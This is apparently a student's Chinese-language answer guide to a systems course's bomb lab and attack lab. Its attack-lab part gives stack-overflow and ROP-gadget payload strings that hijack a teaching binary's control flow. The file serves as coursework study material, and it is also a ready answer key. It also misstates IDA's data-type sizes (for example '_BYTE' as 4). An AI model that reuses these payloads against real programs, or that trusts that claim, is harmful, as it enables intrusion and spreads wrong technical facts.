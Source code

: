 # lab2-3-help

## lab2

### phase1
首先gdb，b main，然后n到输入命令，随便输入一些，到phase_1，使用si，执行到call string_equal时查看参数。

### phase2
read_siz_nums读取6个数字放入(%rsi),4(%rsi),8(%rsi),c(%rsi),10(%rsi),14(%rsi)，之后根据rsi的信息判断是怎么比较的

### phase3
直接看IDA结果，是一个跳表，输入%d,%d，比较即可

### phase4
为斐波那契数列，输入第几个元素，返回值，对应表如下：
|输入|比较|
|---|---|
| 0 | 1 |
| 1 | 1 |
| 2 | 2 |
| 3 | 3 |
| 4 | 5 |
| 5 | 8 |
| 6 | 13 |
| 7 | 21 |
| 8 | 34 |
| 9 | 55 |
| 10 | 89 |
| 11 | 144 |
| 12 | 233 |
| 13 | 377 |
| 14 | 610 |

### phase5
为预先定义好的数组求和。需要找到数组地址，数组每个元素长度为4。输入为六个连续的数字。
IDA中_BYTE长度为4，_WORD为8，_DWORD为16，_QWORD为32。

### phase6
首先比较输入的每个数字，都要求小于等于6且不等于后面的任意一个数字。

之后跳出循环，将node的地址按照输入的顺序存入栈（(%rsp)），然后重构node之后的指针，使得其指向下一个。逐个比较node，使得值递增。

### 隐藏
在phase4之后输入字符可以解锁。为二叉树查找，可以手动画出二叉树，然后根据IDA进行计算。每个节点结构为8长度值+8长度左节点指针+8长度右节点指针。

## lab3
./hex2raw < phase_x.txt > phase_x.raw
gcc -c tmp.s -o tmp.o
objdump -D tmp.o > tmp.d
### phase1
首先确定touch1地址，然后连续输入6行每行8个字节的0，第六行输入地址，之后补全0即可。
故为：
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
(地址反向)   00 00 00 00 00

### phase2
同样地，首先确定输入栈起始位置，这里可以通过gdb得到，在汇编中搜索Gets，在此处打break，例如b *0x401bf1，运行到此处时输入栈起始位置可以通过rsp得到。然后确定touch2地址。
48 c7 c7 (cookie值反向) 68
(touch2地址反向) 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
(栈地址反向)    00 00 00 00

movq $(cookie值),%rdi
pushq (touch2地址)
ret

### phase3
同样地，首先确定输入栈起始位置，这里可以通过gdb得到，在汇编中搜索Gets，在此处打break，例如b *0x401bf1，运行到此处时输入栈起始位置可以通过rsp得到。然后确定touch3地址。把cookie转为字符形式。正着转。0->48->0x30,a->97->0x61,A->65->0x41
48 c7 c7 (输入地址反向(为栈地址+0x40)) 68 
(touch3地址反向) 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
(栈地址反向)    00 00 00 00
输入地址 -> 32 61 32 65 34 61 30 38(cookie值变换正向)

movq $(输入地址),%rdi
pushq (touch3地址)
ret

### phase4
首先记录下所有可执行的baget：
401d9c:movl %eax,%edi(89 c7 c3)
401db1:pop %rax(58 c3)
401dbd:movq %rax,%rdi(48 89 c7 c3)
401dd5:lea (%rdi,%rsi,1),%rax(48 8d 04 37 c3)
401dee:movl %edx,%esi(89 d6 *08 db* c3)
401e06:movl %eax,%ecx(89 c1 *38 c9* c3)
401e5c:movl %ecx,%edx(89 ca *90 90* c3)
401e00:movq %rsp,%rax(48 89 e0 *90* c3)
然后

00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
b1 1d 40(pop %rax 地址反向) 00 00 00 00 00 
08 4a 2e 2a(cookie值反向) 00 00 00 00
9c 1d 40(movl %eax,%edi 地址反向) 00 00 00 00 00
2e 1c 40(touch2地址反向) 00 00 00 00 00

## phase5
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 1e 40(movq %rsp,%rax 地址反向) 00 00 00 00 00
bd 1d 40(movq %rax,%rdi 地址反向) 00 00 00 00 00(ret后rsp指向此)
b1 1d 40(pop %rax 地址反向) 00 00 00 00 00
48 00 00 00 00 00 00 00
06 1e 40(movl %eax,%ecx 地址反向) 00 00 00 00 00
5c 1e 40(movl %ecx,%edx 地址反向) 00 00 00 00 00
ee 1d 40(movl %edx,%esi 地址反向) 00 00 00 00 00
d5 1d 40(lea (%rdi,%rsi,1),%rax 地址反向) 00 00 00 00 00
bd 1d 40(movq %rax,%rdi 地址反向) 00 00 00 00 00
05 1d 40(touch3 地址反向) 00 00 00 00 00 
32 61 32 65 34 61 30 38(cookie转换正向)